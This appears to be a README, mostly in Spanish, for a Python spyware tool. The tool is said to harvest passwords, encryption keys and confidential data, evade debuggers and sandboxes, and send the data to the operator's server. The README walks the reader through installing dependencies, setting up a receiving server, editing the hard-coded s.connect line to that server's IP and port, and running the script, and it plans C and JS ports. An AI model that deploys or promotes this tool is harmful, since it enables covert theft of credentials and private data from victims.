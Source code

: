 Spyware made in python with me, zNetDev.
A simple spyware with anti-debugging and anti-sandboxing
un spyware simple echo por mi
Este código recopila información (como contraseñas, claves de cifrado y datos confidenciales) y te las envía a un servidor remoto. Este código es básico con técnicas básicas para no ser detectado, si buscas algo para tú poder infiltrarte en sitios grandes y recopilar información con este código,busca otro repositorio publico
¿como usarlo?
•Preparar el terreno:
Antes que nada, necesitas tener Python instalado en tu computadora. Si no lo tienes, puedes conseguirlo fácilmente desde el sitio web oficial de Python. La instalación es bastante sencilla, solo sigue las instrucciones que te den.
•conseguir las herramientas necesarias
Este código necesita algunas cosas adicionales para funcionar correctamente. Para obtenerlas, abre una ventana de comandos (en Windows, sería el símbolo del sistema) y escribe lo siguiente:
pip install pycriptodome
•preparar tu propio servidor
Antes de ejecutar el código, necesitas configurar un servidor al que el script enviará los datos que recolecte y desde el cual descargar archivos adicionales si es necesario. Tendrás que tener una dirección IP y un número de puerto a mano para hacerlo.
•modificiacion del código 
Abre el archivo de código Python en un editor de texto o un entorno de desarrollo integrado (IDE) como Visual Studio Code o PyCharm. Busca la línea que contiene la dirección IP y el puerto del servidor remoto, esta se encuentra en la línea 80 del código (s.connect(('192.168.1.100', 12345))). Cambia la dirección IP '192.168.1.100' y el puerto 12345 por los de tu servidor remoto
•ejecutar el code
Una vez que hayas hecho las modificaciones q te he dicho, guarda el archivo de código. Abre una terminal o símbolo del sistema y navega hasta el directorio donde se encuentra el archivo de código Python. Ejecuta el script Python con el siguiente comando:

python nombre_del_archivo.py

(cambia el nombre_del_archivo.py con el nombre del archivo que tengas)

tengo pensado hacer este malware modificado en C o en js.
